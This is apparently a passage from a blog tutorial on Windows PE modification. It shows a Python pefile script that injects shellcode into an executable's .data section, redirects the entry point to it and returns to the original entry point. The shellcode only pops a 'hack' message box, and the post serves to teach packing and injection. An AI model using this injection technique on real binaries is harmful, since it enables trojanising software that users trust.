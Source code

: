 ```
#payload = bytearray(newSection.SizeOfRawData)
#shellcode = b"\x90"*newSection.SizeOfRawData
#We also add the following to lines to write to disk
pe.sections.append(newSection)
pe.__structures__.append(newSection)

#copying MessagerBoxA shellcode that returns execution to the Original Entry Point
shellcode = b"\x90"*8
shellcode += b"\x60\x89\xe5\x81\xc4\xf0\xf9\xff\xff\x31\xc9\x64\x8b\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x5e\x08\x8b\x7e\x20\x8b\x36\x66\x39\x4f\x18\x75\xf2\xeb\x06\x5e\x89\x75\x04\xeb\x54\xe8\xf5\xff\xff\xff\x60\x8b\x43\x3c\x8b\x7c\x03\x78\x01\xdf\x8b\x4f\x18\x8b\x47\x20\x01\xd8\x89\x45\xfc\xe3\x36\x49\x8b\x45\xfc\x8b\x34\x88\x01\xde\x31\xc0\x99\xfc\xac\x84\xc0\x74\x07\xc1\xca\x0d\x01\xc2\xeb\xf4\x3b\x54\x24\x24\x75\xdf\x8b\x57\x24\x01\xda\x66\x8b\x0c\x4a\x8b\x57\x1c\x01\xda\x8b\x04\x8a\x01\xd8\x89\x44\x24\x1c\x61\xc3\x68\x83\xb9\xb5\x78\xff\x55\x04\x89\x45\x10\x68\x8e\x4e\x0e\xec\xff\x55\x04\x89\x45\x14\x31\xc0\x66\xb8\x6c\x6c\x50\x68\x33\x32\x2e\x64\x68\x75\x73\x65\x72\x54\xff\x55\x14\x89\xc3\x68\xa8\xa2\x4d\xbc\xff\x55\x04\x89\x45\x20\x31\xc0\x66\x05\x65\x64\x50\x68\x68\x61\x63\x6b\x89\xe2\x31\xc0\x50\x68\x68\x61\x63\x6b\x89\xe7\x50\x52\x57\x50\xff\x55\x20\x31\xc0\x05\xe0\x12\x40\x00\xff\xe0"
#writing the shellcode to .data section
print("[*] Writing shellcode to binary....")
print(pe.set_bytes_at_offset(0x3020, shellcode)) #writing to recalculated offset size
#writing to disk
pe.write('./python_packed.exe')
print("[*] Done!")

```

Listed above is the code used to modify the binary. With what we have learned plus the comments, it should be easy to follow along, but basically, the script does this:

- Create a new section ".packed"
- Write a shellcode to ".data" + 0x20
- Change the entry point of the PE to ".data" + 0x20
- Executes shellcode on ".data"
- Return Execution to OEP (Original Entry Point)

![](https://raw.githubusercontent.com/dplastico/dplastico.github.io/main/_posts/img/2022-03-31-01-33-26.png)

